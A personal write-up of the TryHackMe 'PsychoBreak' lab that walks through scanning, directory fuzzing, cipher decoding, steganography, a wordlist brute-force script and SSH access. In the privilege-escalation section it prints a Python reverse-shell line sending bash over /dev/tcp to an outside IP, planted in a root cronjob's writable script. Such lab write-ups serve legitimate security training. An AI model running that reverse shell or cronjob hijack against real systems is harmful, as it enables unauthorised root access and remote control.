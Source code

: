 ```yaml
---
tags: crypto, steg, subprocess, python
share: True
---
```


# THM: PsychoBreak

***Overview**: Psychobreak is a Linux machine on tryhackme rated as easy. This machine uses a series of  cryptography and steganography techniques to work through it's challenges but what is particularly interesting is exploiting a cronjob using subprocess in python to escalate privileges to root.*


> Hello fellow readers, 
I guess it's been a while I uploaded any con;ltent, sorry about that. Well  I decided to upload a writeup for this machine cause I found it particularly interesting but what I wanted to specifically share was using subprocess in python to gain a revere shell, I really hope you enjoy this writeup!!
	Much love,
	Gr4y.

#### Scanning and Enumeration
- As usual, I start with a port scan with Nmap
![](assets/Psychobreak_assets/Pasted%20image%2020230421130725.png)
- Then I go for a full portscan using masscan, this verified we do have just 3 ports open
```shell
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535 10.10.121.146 --rate=1000 -e tun0 > psychobreak

┌──(kali㉿kali)-[~/THM]
└─$ cat psychobreak    
Discovered open port 21/tcp on 10.10.121.146                                   
Discovered open port 80/tcp on 10.10.121.146                                   
Discovered open port 22/tcp on 10.10.121.146
```
#### Web
- we go to the web page and this is how the site looks like
![](assets/Psychobreak_assets/Pasted%20image%2020230421132523.png)
![](assets/Psychobreak_assets/Pasted%20image%2020230421133737.png)
- Viewing the comments, we see a clue which looks like a directory path
![](assets/Psychobreak_assets/Pasted%20image%2020230421133847.png)
- then visiting that directory, we are presented with this
![](assets/Psychobreak_assets/Pasted%20image%2020230421134040.png)
- we found a key, so clicking on the link we a presented with that key to the locker room

![](assets/Psychobreak_assets/Pasted%20image%2020230421134346.png)
- we can also see the key if we inspect the JavaScript file
![](assets/Psychobreak_assets/Pasted%20image%2020230421134641.png)
- If we don't enter the key quickly, then it gets too late because of the timer
![](assets/Psychobreak_assets/Pasted%20image%2020230421134512.png)
- Entering a key we got access to the locker room and another clue
![](assets/Psychobreak_assets/Pasted%20image%2020230421134740.png)![](Psychobreak_assets/Pasted%20image%2020230421134845.png)
- now the clue we get is this piece of text Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv
![](assets/Psychobreak_assets/Pasted%20image%2020230421135059.png)
- so Using a cipher identifier, we get that the possible cipher encoding is the Atbash Cipher
![](assets/Psychobreak_assets/Pasted%20image%2020230421135330.png)
- Decrypting from Atbash [https://www.dcode.fr/atbash-cipher](https://www.dcode.fr/atbash-cipher), we got the key to access the map
- Now that we have access to the map, we will see that we have already been to the first 2 and we have the next directory to move too
![](assets/Psychobreak_assets/Pasted%20image%2020230421135511.png)
- Moving to the next directory, we are presented with the below
![](assets/Psychobreak_assets/Pasted%20image%2020230421135734.png)
![](assets/Psychobreak_assets/Pasted%20image%2020230421135753.png)
- Inspecting the page, we are presented with our next clue
![](assets/Psychobreak_assets/Pasted%20image%2020230421140127.png)
- "Search through Me", Hmmm, so after performing different forms of steganographic techniques in the presented images, and gaining nothing why don't we do a directory scan on the SafeHeaven directory, and we got the keeper sub directory
```shell
┌──(kali㉿kali)-[~/THM]
└─$ ffuf -w wordlist-part01.txt:FUZZ -u http://10.10.1.159/SafeHeaven/FUZZ 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.1.159/SafeHeaven/FUZZ
 :: Wordlist         : FUZZ: /home/kali/THM/wordlist-part01.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 324ms]
    * FUZZ: keeper
```

- going to that directory, we are presented with this
![](assets/Psychobreak_assets/Pasted%20image%2020230422100710.png)
- Now in other to escape the keeper, we have to find the specific location of this image
![](assets/Psychobreak_assets/Pasted%20image%2020230422100930.png)
- so now we will perform a reverse image search on  that image, and get the name of the building as St. Augustine Lighthouse
![](assets/Psychobreak_assets/Pasted%20image%2020230423103203.png)
- Entering the name of that building, we get the keeper key
![](assets/Psychobreak_assets/Pasted%20image%2020230422170603.png)
- After getting the key, we move to the Abandoned room Next
![](assets/Psychobreak_assets/Pasted%20image%2020230422170817.png)
- then we click on go further and when we inspect, we find another clue
![](assets/Psychobreak_assets/Pasted%20image%2020230422174512.png)
- so after some thought, we then tried to use shell as a parameter query and it worked, but only ls could be executed or is allowed
![](assets/Psychobreak_assets/Pasted%20image%2020230422174229.png)
- so then we listed the contents of the previous directory using `ls+..` and got another possible directory
![](assets/Psychobreak_assets/Pasted%20image%2020230422181119.png)
- go to that directory, we are presented with a zip file and a text file
![](assets/Psychobreak_assets/Pasted%20image%2020230422181158.png)
- viewing the text file
![](assets/Psychobreak_assets/Pasted%20image%2020230422181232.png)
- extracting the zip file contents we get a message in a text file and an image file
![](assets/Psychobreak_assets/Pasted%20image%2020230422181519.png)
- viewing the text file, we see we have a message from Joseph
![](assets/Psychobreak_assets/Pasted%20image%2020230422181614.png)
#### Steg
- we can't view the image but, viewing the metadata of the file, we can see that we can possibly extract some data from that image
![](assets/Psychobreak_assets/Pasted%20image%2020230422182135.png)
- Extracting from the image, we get another image that is viewable and a wav file containing morse code
![](assets/Psychobreak_assets/Pasted%20image%2020230422182643.png)
![](assets/Psychobreak_assets/Pasted%20image%2020230422183000.png)
- Decrypting the Morse code , we get a message SHOWME
![](assets/Psychobreak_assets/Pasted%20image%2020230422190149.png)
- then we can extract another text file using sheghide and using SHOWME as the passphrase to extract file from image
![](assets/Psychobreak_assets/Pasted%20image%2020230422200846.png)
- Now we have obtained the FTP crednetials.
- logging into the FTP server, we are able to retrieve 2 files, one which seems like an executable program and the other a dictionary file
![](assets/Psychobreak_assets/Pasted%20image%2020230422201157.png)
- executing the program, we will see that if we enter the wrong word, it shows us Incorrect
![](assets/Psychobreak_assets/Pasted%20image%2020230422204309.png)
- so we need to write a program executes that program and utilizes the dictionary file found by feeding each word in the wordlist to the from, and the script below did just that
```python
#/bin/python3
import subprocess

# Replace script_path with the path to your shell script
script_path = "/home/kali/THM/_Table.jpg.extracted/program"

# Replace wordlist_path with the path to your wordlist file
wordlist_path = "/home/kali/THM/_Table.jpg.extracted/random.dic"

# Open the wordlist file for reading
with open(wordlist_path) as wordlist:

    # Iterate over each line in the wordlist
    for line in wordlist:

        # Strip newline character from line
        line = line.strip()

        # Build the command to execute your shell script with the current word as an argument
        command = [script_path, line]

        # Execute the command and capture the output
        output = subprocess.check_output(command)

        # Print the output
        print(output)
```
- after a little while, we we get the correct word as kidman and we get an encoded set of numbers
![](assets/Psychobreak_assets/Pasted%20image%2020230422204120.png)
`55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33`
- placing this in a cipher identifier, we see that the possible cipher is Multi-tap Phone (SMS)
![](assets/Psychobreak_assets/Pasted%20image%2020230422205239.png)
![](assets/Psychobreak_assets/Pasted%20image%2020230422205303.png)
- Decoding this we get something that seems like a password form Kidman
#### Foothold
- using the string as the password for kidman via SSH, we get foothold to the machine
![](assets/Psychobreak_assets/Pasted%20image%2020230422205923.png)
- we finally get our user flag
![](assets/Psychobreak_assets/Pasted%20image%2020230422205957.png)
- viewing the hidden files, we see 2 text files
![](assets/Psychobreak_assets/Pasted%20image%2020230422210324.png)
- since the content of the first file is encoded, we analyze it and see the possible cipher as ROT-47
![](assets/Psychobreak_assets/Pasted%20image%2020230422210620.png)
- Then decoding it, we get another message
![](assets/Psychobreak_assets/Pasted%20image%2020230422210635.png)
```
From Kidman:

The thing I am about to tell so is top secret. No one doesn't know about this. It's the Ruvik's eye. No one can hide away from it. But I can tell you one thing search for the string *the_eye_of_ruvik* . You got to help Sebastian defeat Ruvik ...
```
#### Privilege Escalation
- Running linpeas and looking at the output
![](assets/Psychobreak_assets/Pasted%20image%2020230422214119.png)
- we can see that a cronjob that executes a file as root is running
![](assets/Psychobreak_assets/Pasted%20image%2020230422215242.png)
![](assets/Psychobreak_assets/Pasted%20image%2020230422215342.png)
- we can see that the file is in our var directory
![](assets/Psychobreak_assets/Pasted%20image%2020230422215809.png)
- looking at the file, we can see that the file imports subprocess and executes some commands
![](assets/Psychobreak_assets/Pasted%20image%2020230422220046.png)
- we then try to gain a reverse shell with subprocess in python using to the code `subprocess.Popen(["/bin/bash", "-c", "exec /bin/bash -i &>/dev/tcp/10.8.80.123/4242 <&1"])`
![](assets/Psychobreak_assets/Pasted%20image%2020230422221529.png)
- we can then see that we have a root shell in our listener and we finally have our root file
![](assets/Psychobreak_assets/Pasted%20image%2020230422221556.png)

#### Defeat Ruvik
- delete Ruvik's account with `sudo userdel -r ruvik` (-r to delete the home dorectory recursively)
![](assets/Psychobreak_assets/Pasted%20image%2020230422222126.png)


Thank you reading my writeup guys, see you next time, Much love!!
